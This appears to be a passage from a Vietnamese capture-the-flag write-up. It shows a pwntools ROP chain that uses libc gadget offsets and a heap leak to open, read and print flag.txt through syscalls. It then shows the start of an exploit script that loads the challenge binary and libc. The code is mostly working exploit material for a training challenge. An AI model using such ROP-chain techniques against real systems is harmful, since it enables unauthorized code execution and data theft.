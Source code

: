 ```python
poprdi=libc.address+0x000000000002a3e5
poprax=libc.address+0x0000000000045eb0
poprsi=libc.address+0x000000000002be51
poprdx=libc.address+0x000000000011f497
syscall=libc.address+0x0000000000091396
ret=libc.address+0x0000000000029cd6


write(1, 0x280-0x10, b"flag.txt\0")
payload = flat(ret, ret, ret, ret, ret, ret)
payload+= flat(
    poprdi, heap_leak + 0xa10,
    poprdx, 0x0, 0,
    poprsi, 0,
    poprax, 2,
    syscall,
    
    poprax, 0,
    poprdi, 3,
    poprsi, heap_leak+ 0xa10,
    poprdx, 0x100, 0,
    syscall,
    
    poprax, 1,
    poprdi, 1,
    poprsi, heap_leak+ 0xa10,
    poprdx, 0x100, 0,
    syscall
)
write(1, 0x280-0x10, payload)
```
## Kết quả
![Alt text](image-6.png)
```python
#!/usr/bin/python3
from z3 import *
from pwn import *

exe = ELF('vuln_patched', checksec=False)
libc = ELF('libc.so.6', checksec=False)
context.binary = exe

def GDB():
        if not args.REMOTE:
                gdb.attach(p, gdbscript='''
                 b*fgets+135

                c
                ''')
```